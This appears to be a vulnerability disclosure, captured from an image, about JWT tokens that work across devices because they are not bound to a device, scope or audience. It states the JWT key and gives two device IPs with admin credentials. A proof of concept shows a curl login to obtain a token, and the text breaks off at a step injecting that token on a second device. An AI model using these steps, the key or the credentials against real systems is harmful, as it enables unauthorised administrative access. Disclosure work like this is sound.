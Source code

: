 
## Affected Component(s)
- **Session Handling:** Improper validation of JWT tokens across devices.  
- **Authentication:** Failure to bind JWT tokens to a specific device or session.  
- **Authorization:** Lack of proper scope and audience validation for JWT tokens.  

---

## Attack Vector(s)
- **Access Method:** Remote, over HTTP.  
- **Authentication Requirement:** None (bypass via token injection).  
- **Exploit Complexity:** Low (manual token injection).  

---
## jwt key is:
```
testing
```
---

## Proof of Concept (PoC)
### 1. Scenario Overview
**Device 1**:  
- IP Address: `137.18.2.1`  
- Username: `admin`  
- Password: `passd1`  

**Device 2**:  
- IP Address: `208.129.3.4`  
- Username: `admin`  
- Password: `pworld2`  

---

### 2. Exploit Steps
✅ **Step 1: Obtain JWT Token from Device 1**  
Log into Device 1 using valid credentials to obtain a JWT token:

```bash
curl -X POST 'http://137.18.2.1/login' \
-H 'Content-Type: application/json' \
--data-raw '{
  "username": "admin",
  "password": "passd1"
}'
```
Example Response:

```json
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```
✅ **Step 2: Inject JWT Token into Browser's Local Storage on Device 2**
